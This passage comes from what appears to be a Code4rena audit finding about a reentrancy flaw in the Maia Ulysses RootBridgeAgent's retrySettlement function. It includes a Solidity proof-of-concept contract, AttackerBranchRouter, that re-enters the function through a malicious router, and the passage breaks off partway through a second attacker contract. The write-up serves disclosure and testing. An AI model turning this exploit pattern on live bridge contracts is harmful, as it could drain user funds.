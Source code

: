 https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/factories/RootBridgeAgentFactory.sol#L75C1-L89C6


### Issue #2
In `RootBridgeAgent`, the `retrySettlement()` function is not protected from reentrancy with the `lock` modifier. We can then re-enter this function via the injected malicious BranchRouter (Issue #1). The malicious BranchRouter can be triggered via `BranchBridgeAgentExecutor` when the attacker perform the settlement call. That  will execute `IRouter(_router).anyExecuteSettlement()` when additional calldata is passed in as shown in [BranchBridgeAgentExecutor.sol#L110](https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgentExecutor.sol#L110).
```Solidity
    function retrySettlement(uint32 _settlementNonce, uint128 _remoteExecutionGas) external payable {
        //Update User Gas available.
        if (initialGas == 0) {
            userFeeInfo.depositedGas = uint128(msg.value);
            userFeeInfo.gasToBridgeOut = _remoteExecutionGas;
        }
        //Clear Settlement with updated gas.
        _retrySettlement(_settlementNonce);
    }
```
https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/RootBridgeAgent.sol#L244-L252


## Proof of Concept
1. First append the following malicious router contracts to `RootTest.t.sol`.

```Solidity
import {
    SettlementParams
} from "@omni/interfaces/IBranchBridgeAgent.sol";

contract AttackerBranchRouter is BaseBranchRouter {

    uint256 counter;

    function anyExecuteSettlement(bytes calldata data, SettlementParams memory sParams)
        external
        override
        returns (bool success, bytes memory result)
    {
        // limit the recursive loop to re-enter 4 times (just for POC purpose)
        if(counter++ == 4) return (true, "");

        address rootBridgeAgentAddress =  address(uint160(bytes20(data[0:20])));

        // Re-enter retrySettlement() before the first settlement is marked as executed
        RootBridgeAgent rootBridgeAgent = RootBridgeAgent(payable(rootBridgeAgentAddress));
        rootBridgeAgent.retrySettlement{value: 3e11 }(sParams.settlementNonce, 1e11);

        // Top-up gas for BranchBridgeAgent as retrySettlement() will refund gas after each call
        BranchBridgeAgent branchAgent = BranchBridgeAgent(payable(localBridgeAgentAddress));
        WETH9 nativeToken = WETH9(branchAgent.wrappedNativeToken());
        nativeToken.deposit{value: 1e11}();
        nativeToken.transfer(address(branchAgent), 1e11);
    }

    fallback() external payable {}
}

contract AttackerRouter is Test {

```